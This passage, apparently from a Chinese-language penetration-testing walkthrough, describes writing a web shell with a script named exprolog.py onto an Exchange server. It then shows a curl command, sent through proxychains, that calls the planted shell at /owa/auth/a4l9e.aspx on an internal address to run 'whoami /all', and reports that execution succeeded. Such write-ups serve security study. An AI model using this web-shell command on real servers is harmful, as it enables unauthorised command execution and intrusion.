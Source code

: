 这样也可以用 exprolog.py 写入 shell

[![](assets/1707954377-9073ebd41958fd348712d97d277c748c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173811-1ca62000-c341-1.png)

[![](assets/1707954377-1936e7e91755fe44f1ed5a8aaf1d23c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173815-1f392c72-c341-1.png)

可以看到 shell 位置

```bash
proxychains curl --request POST --url https://172.22.3.9/owa/auth/a4l9e.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[![](assets/1707954377-44351db4498af138ea6c0b802c3a72fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204173821-228f6b20-c341-1.png)

可以看到成功命令执行
